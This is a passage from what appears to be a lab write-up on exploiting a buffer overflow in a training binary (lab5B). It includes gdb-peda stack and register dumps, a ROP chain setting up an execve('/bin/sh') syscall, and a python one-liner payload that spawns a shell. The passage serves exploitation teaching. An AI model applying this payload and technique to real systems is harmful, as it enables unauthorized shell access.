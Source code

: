 ```nasm
[------------------------------------stack-------------------------------------]
0000| 0xbffff6d0 ("/bin/sh")
0004| 0xbffff6d4 --> 0x68732f ('/sh')
0008| 0xbffff6d8 --> 0xbffff75c --> 0xbffff89c ("XDG_SESSION_ID=15")
0012| 0xbffff6dc --> 0x0
0016| 0xbffff6e0 --> 0x0
0020| 0xbffff6e4 --> 0x80481a8 (<_init>:    push   ebx)
0024| 0xbffff6e8 --> 0x0
0028| 0xbffff6ec --> 0x80eb00c --> 0x8067b30 (<__stpcpy_sse2>:  mov    edx,DWORD PTR [esp+0x4])
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

Nice, "/bin/sh" is now on the stack. Now, using `ropgadget` we can start looking for interesting *gadget*. After a few try, I came up with the following ROP chain

```nasm
0x080bbf26 ; pop eax ; ret
0x0000000b ; EAX = 0x0b (syscall for execve())
0x080e55ad ; pop ecx ; ret
0x00000000 ; ECX = 0
0x080481c9 : pop ebx ; ret
0xbffff6e8 ; PTR to "/bin/sh" in EBX
0x08049401 ; int 0x80
```

If we set a breakpoint on the `ret` instruction in the *main()* function, we can see our ROP chain on the stack.

```nasm
gdb-peda$ break *main+69
Breakpoint 1 at 0x8048e89
gdb-peda$ r < <(python -c "print(140 * 'A' + '\x26\xbf\x0b\x08' + '\x0b\x00\x00\x00' + '\xad\x55\x0e\x08' + '\x00\x00\x00\x00' + '\xc9\x81\x04\x08' + '\xe8\xf6\xff\xbf' + '\x01\x94\x04\x08' + '/bin/sh')")
Starting program: /levels/lab05/lab5B < <(python -c "print(140 * 'A' + '\x26\xbf\x0b\x08' + '\x0b\x00\x00\x00' + '\xad\x55\x0e\x08' + '\x00\x00\x00\x00' + '\xc9\x81\x04\x08' + '\xe8\xf6\xff\xbf' + '\x01\x94\x04\x08' + '/bin/sh')")
Insert ROP chain here:
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0xfbad2088
EDX: 0x80ec4e0 --> 0x0
ESI: 0x0
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff6cc --> 0x80bbf26 (<_Unwind_GetDataRelBase+6>:  pop    eax)
EIP: 0x8048e89 (<main+69>:  ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048e86 <main+66>: pop    ebx
   0x8048e87 <main+67>: pop    edi
   0x8048e88 <main+68>: pop    ebp
=> 0x8048e89 <main+69>: ret
   0x8048e8a:   xchg   ax,ax
   0x8048e8c:   xchg   ax,ax
   0x8048e8e:   xchg   ax,ax
   0x8048e90 <__libc_start_main>:   push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xbffff6cc --> 0x80bbf26 (<_Unwind_GetDataRelBase+6>: pop    eax)
0004| 0xbffff6d0 --> 0xb ('\x0b')
0008| 0xbffff6d4 --> 0x80e55ad --> 0x40ec359
```